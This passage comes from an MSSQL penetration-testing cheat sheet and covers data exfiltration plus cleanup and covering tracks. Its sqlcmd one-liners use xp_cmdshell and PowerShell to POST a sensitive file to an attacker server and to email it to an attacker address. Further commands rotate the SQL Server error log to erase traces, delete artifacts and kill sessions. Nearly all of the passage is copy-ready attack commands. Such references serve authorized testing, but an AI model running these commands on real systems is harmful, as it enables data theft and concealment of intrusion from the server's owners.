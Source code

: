 #### 14.2 Data Exfiltration via HTTP Request
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'powershell -c Invoke-WebRequest -Uri http://<attacker_ip>/upload -Method POST -Body (Get-Content C:\\SensitiveData.txt)';"
  ```
  Exfiltrate data by sending it via an HTTP POST request to an attacker-controlled server.

#### 14.3 Exfiltration via Email
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U

 <username> -P <password> -Q "EXEC xp_cmdshell 'powershell -c Send-MailMessage -To attacker@domain.com -From sqlserver@domain.com -Subject \"Data Exfil\" -Body (Get-Content C:\\SensitiveData.txt) -SmtpServer smtp.domain.com';"
  ```
  Exfiltrate data by emailing it directly from the SQL Server.

## 15. Cleanup and Covering Tracks

#### 15.1 Remove Executed Commands from MSSQL Logs
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_cycle_errorlog;"
  ```
  Rotate the SQL Server error log to remove traces of executed commands.

#### 15.2 Delete Files and Artifacts
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'del C:\\SensitiveData.txt';"
  ```
  Delete any files or artifacts that were created during the penetration test.

#### 15.3 Reset SQL Server Configurations
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_configure 'xp_cmdshell', 0; RECONFIGURE;"
  ```
  Reset SQL Server configurations to their original state after testing.

#### 15.4 Log Out and End Sessions
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "KILL <session_id>;"
  ```
  Terminate any active SQL sessions that were created during the test.

## 16. Advanced Attack Techniques
